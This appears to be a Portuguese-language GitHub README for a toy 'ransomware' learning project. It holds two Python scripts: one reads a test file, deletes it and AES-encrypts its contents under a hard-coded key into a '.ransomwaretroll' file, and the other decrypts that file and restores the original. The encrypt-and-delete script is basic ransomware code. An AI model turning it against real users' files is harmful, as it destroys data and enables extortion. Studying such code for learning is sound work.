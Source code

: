 !primeiro eu criei o arquivo que iria criptografar

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

!depois eu criei o arquivo que iria ser descriptografado

import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()

!resultado final

##processo ultilizado no linux

![processo](https://github.com/user-attachments/assets/c4e95bf4-1977-4aa6-9bad-d54582df35cd)


![arquivo criptografado](https://github.com/user-attachments/assets/4b3371b4-e41b-4134-9b9c-28b56758b48e)

 
![arquivo descriptografado](https://github.com/user-attachments/assets/0153e069-b68f-45a6-b860-bb8c4244d612)
